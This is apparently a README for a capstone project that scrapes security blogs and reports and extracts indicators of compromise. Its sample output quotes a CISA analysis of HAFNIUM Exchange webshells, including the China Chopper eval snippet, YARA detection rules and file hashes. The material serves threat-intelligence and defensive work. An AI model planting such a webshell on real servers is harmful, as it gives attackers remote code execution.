


# Capstone-MISP-Module

- [Capstone-MISP-Module](#capstone-misp-module)
  - [How to run the spider module](#how-to-run-the-spider-module)
## 1) How to run the spider module
1. Navigate to `Capstone-MISP-Module/web-crawler`
2. If not done already, install project dependencies with `pipenv install`
3. Open the python virtual environment for spider module with `pipenv shell`
4. Navigate back to root directory: `Capstone-MISP-Module/web-crawler`
5. Run the spider with `scrapy runspiderweb-crawler/infosecspider/spiders/scraper.py`, where `scraper.py` is the name of the scraping script in `infosecspider/spiders`. This will create an `/output/` folder inside the directory of `Capstone-MISP-Module/` which will contain all the web-scraped urls/blogs posts/technical reports.

### Viewing the initial folders created in /Capstone-MISP-Module/output/:
<div align="center"></div>


## 2) Setting up and How to run the Indicators Of Compromise (IOC) extraction module on the /outputs/ folder generated from step 1
1. Navigate to `Capstone-MISP-Module/`
2. `unzip cyobstract.zip` #Cyobstract IOC extraction tool authored by Sam-Perl, et al.
3. `python cyobstract/setup.py install` #install cyobstract dependencies
4. `pip install --upgrade --force-reinstall progress` #fixes library errors

- Sample code of how to utilize the initiate_ioc_extraction_main function. This function takes the output path from Step 1) and extracts all IOCs utilizing Cyobstract module
```bash
from util.ioc_extract import initiate_ioc_extraction_main

#returns a dictionary of dicts or None
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(dictionary)
```

### Partial sample of output on a CISA analysis-report (url: https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d)
```bash
{'cisa': {'20210429-2315': {'ar21-072d.json': {'article_url': 'https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d',
    'asn': (),
    'asnown': (),
    'cc': ('China',),
    'cve': ('CVE-2021-26855', 'CVE-2021-27065'),
    'data': '\n\t\t\tNotification\n\n\t\t\t\n\t\t\tThis report is provided "as is" for informational purposes only. The Department of Homeland Security (DHS) does not provide any warranties of any kind regarding any information contained herein. The DHS does not endorse any commercial product or service referenced in this bulletin or otherwise.\n\n\t\t\tThis document is marked TLP:WHITE--Disclosure is not limited. Sources may use TLP:WHITE when information carries minimal or no foreseeable risk of misuse, in accordance with applicable rules and procedures for public release. Subject to standard copyright rules, TLP:WHITE information may be distributed without restriction. For more information on the Traffic Light Protocol (TLP), see http://www.us-cert.gov/tlp.\n\n\t\t\tFor a downloadable copy of IOCs, see: MAR-10329297-1.v1.stix.\n\t\t\t\n\n\t\t\tSummary\n\n\t\t\t\n\t\t\tDescription\n\n\t\t\tCISA received two unique files for analysis. These files appear to contain configuration data for two different Microsoft Exchange Offline Address Book (OAB) Virtual Directories (VD) extracted from a Microsoft Exchange Server. Both output files show malicious modifications for the ExternalUrl parameters for these two OAB VDs on the targeted Exchange Servers. In one of the OAB VDs, the ExternalUrl parameter contains a "China Chopper" webshell which may permit a remote operator to dynamically execute JavaScript code on the compromised Microsoft Exchange Server. The second file is modified with an authentication key.\n\n\t\t\tSubmitted Files (2)\n\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd (2XJHwN19.aspx)\n\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8 (UwSPMsFi.aspx)\n\t\t\t\n\n\t\t\tFindings\n\n\t\t\t\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\n\t\t\tTags\n\n\t\t\tbackdoortrojanwebshell\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\tUwSPMsFi.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2186 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tHTML document, ASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t78564702783ba738aa6a920f3b15a202\n\t\t\t\t\tSHA1\n\t\t\t\t\t\ta75fa74ae35ce20c9cfc273c219ef58f1c4714a6\n\t\t\t\t\tSHA256\n\t\t\t\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\t\t\t\t\tSHA512\n\t\t\t\t\t\t63afff12ac7cfd65ba31aad61bab534040fc3ff8b782336fcdbe171bf43f733734770c5f11bfbf9f4b5a1beaf279e8ad8d6509ff6e07b7afba098a8e6ba52a6c\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t24:kNrde9/xL+rJTh91Q/PSR6j0SzMaEVMr6j71idfhLhgupVFgdUYC2E4ONF0qp0Bz:kNrdezC1BO0KM5QZLh9pV/YE4ONF0qBW\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.662408\n\t\t\t\t\tAntivirus\n\n\t\t\tAhnlab\n\t\t\t\t\t\tExploit/ASP.Cve-2021-27065.S1406\n\t\t\t\t\tAvira\n\t\t\t\t\t\tEXP/CVE-2021-27065.1\n\t\t\t\t\tBitDefender\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tClamAV\n\t\t\t\t\t\tAsp.Trojan.Webshell0321-9840176-0\n\t\t\t\t\tEmsisoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112 (B)\n\t\t\t\t\tIkarus\n\t\t\t\t\t\tExploit.ASP.CVE-2021-27065\n\t\t\t\t\tLavasoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tMcAfee\n\t\t\t\t\t\tExploit-CVE2021-27065.a\n\t\t\t\t\tMicrosoft Security Essentials\n\t\t\t\t\t\tExploit:ASP/CVE-2021-27065\n\t\t\t\t\tQuick Heal\n\t\t\t\t\t\tCVE-2021-26855.Webshll.41350\n\t\t\t\t\tSophos\n\t\t\t\t\t\tTroj/WebShel-L\n\t\t\t\t\tSymantec\n\t\t\t\t\t\tTrojan.Chinchop\n\t\t\t\t\tTrendMicro\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tTrendMicro House Call\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_01 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Webshellz"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 65 76 61 6C 28 52 65 71 75 65 73 74 5B 22 [1-32] 5D 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 65 76 61 6C 28 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 28 52 65 71 75 65 73 74 2E 49 74 65 6D 5B [1-36] 5D 29 29 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s3 = { 49 4F 2E 53 74 72 65 61 6D 57 72 69 74 65 72 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s4 = { 57 72 69 74 65 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 or ($s1 and $s2) or ($s3 and $s4)\n\t\t\t\t}\n\t\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit an OAB VD in Internet Information Services (IIS) on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The OAB ExternalUrl parameter has been modified by a remote operator to include a "China Chopper" webshell which is likely an attempt to gain unauthorized access for dynamic remote code execution against a targeted Microsoft Exchange Server. In this file, the OAB ExternalUrl parameter was configured to accept JavaScript code which will be directly executed on the target system. The modification of the ExternalUrl parameter suggests the operator can dynamically submit queries to this Exchange OAB VD.\n\t\t\tThe ExternalUrl designation that normally specifies the Uniform Resource Locator (URL) used to connect to the VD from outside the firewall has been replaced with the following code:\n\t\t\t--Begin Code--\n\t\t\thxxp[:]//f/<script language="JScript" runat="server">function Page_Load(){eval(Request["[REDACTED]"],"unsafe");}</script>\n\t\t\t--End Code--\n\t\t\tNote: The hard-coded key used for authentication was redacted from the code above.\n\t\t\tThis code allows an attacker to access the shell using a password. Once accessed, the attacker is able to execute commands on the page with server (system) level privileges.\n\t\t\t\n\n\t\t\t\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\n\t\t\tTags\n\n\t\t\tbackdoor\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\t2XJHwN19.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2177 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t4580f7f2f2d7ac1af26693132c2e756d\n\t\t\t\t\tSHA1\n\t\t\t\t\t\t1fead8d37f73b87ab75d0096d49b797afe7d0445\n\t\t\t\t\tSHA256\n\t\t\t\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\t\t\t\t\tSHA512\n\t\t\t\t\t\tfceddb90d8a9445a726eefa6df7fe928006d6a29279138e1b7906534d3b188d08eda62a939617a7944889d8e2e160417600947f48d5704cb537e64b2523ba1a4\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t48:kNrdNC1BS67PQZLh9pVn3tE4ONF0qny/W:ktdcVM7n3mNCqny/W\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.495728\n\t\t\t\t\tAntivirus\n\n\t\t\tSophos\n\t\t\t\t\t\tTroj/ASPDoor-W\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit a OAB VD in IIS on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The configuration has been modified with a key in the \'ExternalUrl\' field. The key is most likely used for authentication to the server.\n\t\t\t\n\n\t\t\tMitigation\n\n\t\t\t\n\t\t\tIf you find these webshells as you are examining your system for Microsoft Exchange Vulnerabilities, please visit the https://us-cert.cisa.gov/remediating-microsoft-exchange-vulnerabilities website for further information on remediation.\n\t\t\t\n\n\t\t\tRecommendations\n\n\t\t\t\n\t\t\tCISA recommends that users and administrators consider using the following best practices to strengthen the security posture of their organization\'s systems. Any configuration changes should be reviewed by system owners and administrators prior to implementation to avoid unwanted impacts.\n\n\t\t\tMaintain up-to-date antivirus signatures and engines.\n\t\t\t\tKeep operating system patches up-to-date.\n\t\t\t\tDisable File and Printer sharing services. If these services are required, use strong passwords or Active Directory authentication.\n\t\t\t\tRestrict users\' ability (permissions) to install and run unwanted software applications. Do not add users to the local administrators group unless required.\n\t\t\t\tEnforce a strong password policy and implement regular password changes.\n\t\t\t\tExercise caution when opening e-mail attachments even if the attachment is expected and the sender appears to be known.\n\t\t\t\tEnable a personal firewall on agency workstations, configured to deny unsolicited connection requests.\n\t\t\t\tDisable unnecessary services on agency workstations and servers.\n\t\t\t\tScan for and remove suspicious e-mail attachments; ensure the scanned attachment is its "true file type" (i.e., the extension matches the file header).\n\t\t\t\tMonitor users\' web browsing habits; restrict access to sites with unfavorable content.\n\t\t\t\tExercise caution when using removable media (e.g., USB thumb drives, external drives, CDs, etc.).\n\t\t\t\tScan all software downloaded from the Internet prior to executing.\n\t\t\t\tMaintain situational awareness of the latest threats and implement appropriate Access Control Lists (ACLs).\n\t\t\tAdditional information on malware incident prevention and handling can be found in National Institute of Standards and Technology (NIST) Special Publication 800-83, "Guide to Malware Incident Prevention & Handling for Desktops and Laptops".\n\t\t\t\n\n\t\t\tContact Information\n\n\t\t\t\n\t\t\t1-888-282-0870\n\t\t\t\tCISA Service Desk (UNCLASS)\n\t\t\t\tCISA SIPR (SIPRNET)\n\t\t\t\tCISA IC (JWICS)\n\t\t\tCISA continuously strives to improve its products and services. You can help by answering a very short series of questions about this product at the following URL: https://us-cert.cisa.gov/forms/feedback/\n\t\t\t\n\n\t\t\tDocument FAQ\n\n\t\t\t\n\t\t\tWhat is a MIFR? A Malware Initial Findings Report (MIFR) is intended to provide organizations with malware analysis in a timely manner. In most instances this report will provide initial indicators for computer and network defense. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tWhat is a MAR? A Malware Analysis Report (MAR) is intended to provide organizations with more detailed malware analysis acquired via manual reverse engineering. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tCan I edit this document? This document is not to be edited in any way by recipients. All comments or questions related to this document should be directed to the CISA at 1-888-282-0870 or CISA Service Desk.\n\n\t\t\tCan I submit malware to CISA? Malware samples can be submitted via three methods:\n\n\t\t\tWeb: https://malware.us-cert.gov\n\t\t\t\tE-Mail: submit@malware.us-cert.gov\n\t\t\t\tFTP: ftp.malware.us-cert.gov (anonymous)\n\t\t\tCISA encourages you to report any suspicious activity, including cybersecurity incidents, possible malicious code, software vulnerabilities, and phishing-related scams. Reporting forms can be found on CISA\'s homepage at www.cisa.gov.\n\t\t\t\n\t\t\t\n\t\t',
    'email': ('submit@malware.us-cert.gov',),
    'filename': (),
    'filepath': (),
    'fqdn': ('ftp.malware.us-cert.gov',
     'malware.us-cert.gov',
     'us-cert.cisa.gov',
     'www.cisa.gov',
     'www.us-cert.gov'),
    'incident': (),
    'ipv4addr': (),
    'ipv4cidr': (),
    'ipv4range': (),
    'ipv6addr': (),
    'ipv6cidr': (),
    'ipv6range': (),
    'isp': (),
    'malware': ('asp.trojan.webshell0321-9840176-0',
     'exp/cve-2021-27065.1',
     'exploit-cve2021-27065.a',
     'exploit.asp.cve-2021-27065',
     'exploit/asp.cve-2021-27065.s1406',
     'exploit:asp/cve-2021-27065',
     'generic.asp.webshell.h.48a3b112',
     'troj/aspdoor-w',
     'troj/webshel-l',
     'trojan.chinchop'),
    'md5': ('4580f7f2f2d7ac1af26693132c2e756d',
     '78564702783ba738aa6a920f3b15a202',
     'ab3963337cf24dc2ade6406f11901e1f'), ...
```

## 3) (Optional) Expanding the current scraped urls through the use of google searches (blogs/technical reports/hacker news, etc) implemented in Capstone-MISP-Module/util/ioc_extract_expander.py

A powerful function of our tool comes from the power of allowing a user to expand their database by selecting a previously extracted ioc from a webpage/article for a deep search of the internet. Say you are a security expert and want to get as much information on a new malware with a particular IOC (say a particular MD5 hash). You can do this by running the function below, which will perform X number of google searches for your desired IOC, update the '/Capstone-MISP-Module/output/' folder with the new scraped-websites, and return all the extracted IOCs from how many google searches you specify. 

The parameters this function takes are
1) dictionary= dictionary of IOCs you have scraped so far
2) article_lookup = name of an article which contains an IOC category you are interested in, i.e. MD5
3) num_google_results = how many google hits do you desired to be scraped for each IOC in the chosen IOC category
4) search_speed = speed of google searches (warning: do not set too low, or may be IP blocked by Google)


- Sample code to run ioc_extract_expander.py for one article
```bash
from util.ioc_extract import initiate_ioc_extraction_main
from util.ioc_extract_expander import recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches


#returns a dictionary of dicts or None (same as Section 2 above)
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

#updates 'Capstone-MISP-Module/output' folder with new entries through google searches
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup='ar21-084a.json', ioc='md5', num_google_results=10,search_speed=3)

print('\n----------------Break------------\n')

#We call again initiate_ioc_extraction_main() to generate a bigger dictionary utilizing all the newly google queried articles for the extraction of more IOCs above
bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(bigger_dictionary) #Will print a bigger dictionary containing all new articles. Won't show output here as it is a long dictionary.
```
- You could even call 'recursive_ioc_extractor_....' several times in a row as well (example use case: interested in obtaining more information of 2 new malwares through their MD5 hashes):
```bash
article_1= 'ar21-084a.json'
article_2= 'ar21-072e.json'
selected_ioc_type = 'md5'
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_1, ioc=selected_ioc_type, num_google_results=10,search_speed=3)
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_2, ioc=selected_ioc_type, num_google_results=10,search_speed=3)

even_bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

```

- Demonstration of expansion of scraped-websites folder in /Capstone-MISP-Module/output/ (compare to Section 1):

<div align="center"></div>

